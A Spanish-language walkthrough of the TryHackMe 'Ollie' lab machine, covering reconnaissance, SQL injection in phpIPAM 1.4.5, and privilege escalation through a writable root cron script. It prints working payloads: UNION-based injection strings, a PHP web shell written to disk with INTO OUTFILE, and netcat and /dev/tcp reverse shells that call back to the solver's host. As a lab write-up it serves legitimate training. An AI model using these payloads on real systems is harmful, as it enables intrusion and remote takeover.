




| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/ollie)  | Medio  |  [0day](https://tryhackme.com/p/0day)  |


## Reconocimiento

¡Hey! ¡Bienvenido de nuevo a otra máquina TryHackMe!

¡Hoy estamos armando otra máquina [0day](https://tryhackme.com/p/0day)!

Como en toda máquina, ¡comezamos con la fase de reconocimiento!

```bash
╰─ map 10.10.229.233                                                                          ─╯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-09 12:59 CEST
Nmap scan report for 10.10.229.233
Host is up (0.76s latency).
Not shown: 37078 filtered tcp ports (no-response), 28454 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
| fingerprint-strings:
|   GenericLines:
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up,
|     It's been a while. What are you here for?
|   GetRequest:
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Get / http/1.0
|     It's been a while. What are you here for?
|   NULL:
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|_    What is your name?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.92%I=7%D=4/9%Time=625192C6%P=x86_64-apple-darwin21.1.0
SF:%r(NULL,59,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20pan
SF:els,\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\
SF:?\x20")%r(GenericLines,93,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protect
SF:or\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\x
SF:20your\x20name\?\x20What's\x20up,\x20\r\n\r!\x20It's\x20been\x20a\x20wh
SF:ile\.\x20What\x20are\x20you\x20here\x20for\?\x20")%r(GetRequest,A1,"Hey
SF:\x20stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x
SF:20of\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20
SF:up,\x20Get\x20/\x20http/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20
SF:What\x20are\x20you\x20here\x20for\?\x20");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 284.81 seconds
```

Hay un servicio extraño ejecutándose en el puerto `1337` (Leet :D). Es un puerto común utilizado en CTF y por pentesters, ya que hace referencia a [Leet speak](https://es.wikipedia.org/wiki/Leet)

Usemos `nc` para conectarnos a este puerto...

```bash
╰─ nc 10.10.229.233 1337                                                                    ─╯
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? ollie
What's up, Ollie! It's been a while. What are you here for? exploit
Ya' know what? Ollie. If you can answer a question about me, I might have something for you.


What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? bulldog
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: [REDACTADO]

PS: Good luck and next time bring some treats!
```

¡Wow! ¡Parece que Ollie acaba de darnos sus credenciales del panel de administrador!

¡Iniciemos sesión!

## Acceso inicial - Usuario

Entonces, después de una (_larga_) fase de reconocimiento, encontramos que la plataforma que se ejecuta es `phpIPAM IP address management [v1.4.5]`

El problema aquí es que hay un exploit para la versión anterior (1.4.4) de este software donde afirman que este problema se solucionó en la última versión...

Bien...

_Spoiler: parece que no lo está_

Este es el POC del exploit que usamos como guía: [https://fluidattacks.com/advisories/mercury/](https://fluidattacks.com/advisories/mercury/)

Básicamente necesitamos hacer una búsqueda al mapear una nueva subred, para explotar una `Inyección SQL`.



Este es el exploit utilizado para probar si es vulnerable o no:

`" union select @@version,2,user(),4 -- -`

Lo usamos aquí y obtuvimos esta respuesta:


Como puede ver, podemos explotar un `SQLI` aquí, y tenemos la versión y el usuario que ejecuta la base de datos.

`8.0.28-0ubuntu0.20.04.3/phpipam_ollie@localhost (4)`

¡Cool! ¡Hagamos más reconocimiento manual dentro de la base de datos, veamos si nuestro usuario `phpipam_ollie` puede escribir un archivo!


Explotación utilizado:
`" union all select 1,2,3,group_concat(user,0x3a,file_priv) from mysql.user -- -`

`ollie_mysql:Y,phpipam_ollie:Y`

¡Sí! ¡El usuario puede escribir archivos!

Entonces, para explotar esto, codificamos un payload de PHP simple en HEX:

`<?php system($_GET["cmd"]); ?>`

Y lo agregamos a nuestro exploit:

`" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/shell.php' -- -`



Nos salió un error, pero veamos si se subió...

```bash
╰─ curl http://10.10.229.233/shell.php\?cmd\=whoami                                             ─╯
1	 www-data
 	3	4
```

¡Sí! ¡Ahora pasamos de `SQLI` a `RCE`!

¡Establezcamos una `conexión de shell reversa` y comencemos la fase de reconocimiento nuevamente para llegar a `root`!

```bash
[Terminal 1]
╰─ curl http://10.10.229.233/shell.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.9.0.244%201337%20%3E%2Ftmp%2Ff

------------------------------------------------------------------------------------------

[Terminal 2]
╰─ nc -nlvp 1337                                                                                ─╯
listening on [any] 1337 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 43490
sh: 0: can't access tty; job control turned off
$ id; whoami; pwd; hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
/var/www/html
hackerdog
```
¡Estamos dentro! Pero no podemos leer la bandera de usuario, ya que `Ollie` es el propietario y estamos ejecutando como `www-data`.

Probemos la forma más fácil de subir privilegios: ¡ataque de reutilización de contraseñas!

```bash
www-data@hackerdog:/var$ su ollie
Password:
ollie@hackerdog:/var$ cat /home/ollie/user.txt
THM{[REDACTADO]}
```
¡Sí, funcionó! Ollie usa la misma contraseña para el servidor y el panel de administración.

## Root

Para encontrar nuestro camino a root, necesitamos enumerar la máquina una vez más, usamos `LinPeas` pero nada nos llamó la atención, tambien usamos `pspy64`

```bash
ollie@hackerdog:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2022/04/09 12:29:51 CMD: UID=0    PID=97     |
2022/04/09 12:29:51 CMD: UID=0    PID=96     |
2022/04/09 12:29:51 CMD: UID=0    PID=959    | /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
2022/04/09 12:29:51 CMD: UID=113  PID=950    | /usr/sbin/mysqld
[...]
2022/04/09 12:30:03 CMD: UID=0    PID=4253   | /lib/systemd/systemd-udevd
2022/04/09 12:30:03 CMD: UID=0    PID=4252   | /lib/systemd/systemd-udevd
2022/04/09 12:30:03 CMD: UID=0    PID=4251   | /lib/systemd/systemd-udevd
2022/04/09 12:30:03 CMD: UID=0    PID=4250   | /lib/systemd/systemd-udevd
2022/04/09 12:30:03 CMD: UID=0    PID=4259   | /lib/systemd/systemd-udevd
2022/04/09 12:30:03 CMD: UID=0    PID=4261   | /bin/bash /usr/bin/feedme    <------
2022/04/09 12:30:03 CMD: UID=0    PID=4262   | /bin/bash /usr/bin/feedme	<------
[...]
```

Y como puede ver, hay un binario extraño ejecutándose como root (`UID=0`) con algún cron o algo así

Vamos a ver qué pasa con eso...

```bash
ollie@hackerdog:/tmp$ ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 180 Apr  9 12:20 /usr/bin/feedme
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
```

¡Sí, es raro!

Parece un binario `propiedad de root`, pero con el grupo de `ollie` por lo que tenemos permisos de lectura y escritura.

¡Agreguémosle un exploit, para que podamos tener una `conexión de shell reversa` como `root`!

```bash
ollie@hackerdog:~$ vim /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.9.0.244/1338 0>&1
~
"/usr/bin/feedme" 3L, 81C written
```

```bash
ollie@hackerdog:~$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
/bin/bash -i >& /dev/tcp/10.9.0.244/1338 0>&1
```
¡Configuremos `nc` en escucha y esperemos la conexión!

```bash
└──╼ $nc -nlvp 1338
listening on [any] 1338 ...
connect to [10.9.0.244] from (UNKNOWN) [10.10.229.233] 51578
bash: cannot set terminal process group (4090): Inappropriate ioctl for device
bash: no job control in this shell
root@hackerdog:~# id; whoami; hostname; cat /root/root.txt
id; whoami; hostname; cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
root
hackerdog
THM{[REDACTADO]}
```

31337 H4X0R5 pwneamos la máquina!!

Eso es todo de mi parte, ¡espero que lo encuentre útil!